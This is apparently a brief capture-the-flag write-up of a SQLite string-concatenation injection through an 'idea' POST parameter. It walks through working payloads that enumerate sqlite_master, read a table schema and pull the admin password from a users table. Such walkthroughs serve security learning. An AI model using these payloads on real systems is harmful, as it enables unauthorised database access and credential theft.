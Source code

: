 # 25 AUG 2021 | sqlite string injection

we need to make account to be able to post so let's do it :) 

Try a ' 

![image](https://user-images.githubusercontent.com/67979878/130714242-df167936-792a-4ca8-af50-ab3ce460ea6f.png)

it seems a sqlite injection . .

we have a post parameter `idea` is sent in body so let's play around it  .

![image](https://user-images.githubusercontent.com/67979878/130714349-99cac1a7-82a2-4794-9307-55b6eaba2194.png)

we want to make a correct query try `''` and worked with no error :

![image](https://user-images.githubusercontent.com/67979878/130714508-468a2794-3e26-4290-87be-cd3d5d9f35f1.png)


payload  to use : `' || statement ||'`

test #1 

`` '||(SELECT 1 )||' --  ``

it returns no errors so it seems we have one column to query about . good :) 


test #2 

`` '||(SELECT tbl_name from sqlite_master) ||'  --  ``

![image](https://user-images.githubusercontent.com/67979878/130714799-ee57bcd7-e8c6-48be-83ee-44797cc7dde3.png)

#####  table_name = xde43_users 

let's get columns :) 

test #3 

``  ' ||(SELECT sql from sqlite_master where name= 'xde43_users' )|| '  ``


![image](https://user-images.githubusercontent.com/67979878/130714937-e82581fb-8548-44ab-96f8-4ec4c15c8aa1.png)


 we want admin password so :
 
 
 ``  ' ||(SELECT password from xde43_users WHERE role= 'admin')|| '  ``




![image](https://user-images.githubusercontent.com/67979878/130715092-b50168b6-2651-4904-b44d-b6c55a7e0489.png)



# done 
























